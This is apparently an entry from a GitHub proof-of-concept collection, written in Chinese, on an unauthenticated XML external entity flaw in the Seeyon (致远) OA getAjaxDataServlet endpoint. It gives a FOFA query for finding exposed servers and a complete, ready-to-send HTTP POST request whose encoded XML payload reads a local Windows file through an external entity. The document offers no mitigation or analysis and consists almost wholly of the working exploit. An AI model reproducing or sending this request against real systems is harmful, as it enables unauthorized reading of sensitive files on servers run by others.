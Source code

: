 ## 致远OA_getAjaxDataServlet接口存在任XXE漏洞

致远互联-OA getAjaxDataServlet 接口处存在XML实体注入漏洞，未经身份认证的攻击者可以利用此漏洞读取系统内部敏感文件，获取敏感信息，使系统处于极不安全的状态。


## fofa
```
app="致远互联-OA"
```

## poc
```
POST /seeyon/m-signature/RunSignature/run/getAjaxDataServlet HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Host: 127.0.0.1
Content-Length: 581
Expect: 100-continue
Connection: close

S=ajaxColManager&M=colDelLock&imgvalue=lr7V9+0XCEhZ5KUijesavRASMmpz%2FJcFgNqW4G2x63IPfOy%3DYudDQ1bnHT8BLtwokmb%2Fk&signwidth=4.0&signheight=4.0&xmlValue=%3C%3Fxml+version%3D%221.0%22%3F%3E%0D%0A%3C%21DOCTYPE+foo+%5B%0D%0A++%3C%21ELEMENT+foo+ANY+%3E%0D%0A++%3C%21ENTITY+xxe+SYSTEM+%22file%3A%2F%2F%2Fc%3A%2Fwindows%2Fwin.ini%22+%3E%0D%0A%5D%3E%0D%0A%3CSignature%3E%3CField%3E%3Ca+Index%3D%22ProtectItem%22%3Etrue%3C%2Fa%3E%3Cb+Index%3D%22Caption%22%3Ecaption%3C%2Fb%3E%3Cc+Index%3D%22ID%22%3Eid%3C%2Fc%3E%3Cd+Index%3D%22VALUE%22%3E%26xxe%3B%3C%2Fd%3E%3C%2FField%3E%3C%2FSignature%3E
```

![7f69187733a77b19c7e8b2c772ca1a8b](https://github.com/wy876/POC/assets/139549762/677f206c-4f2d-479d-88d7-534377e279ea)
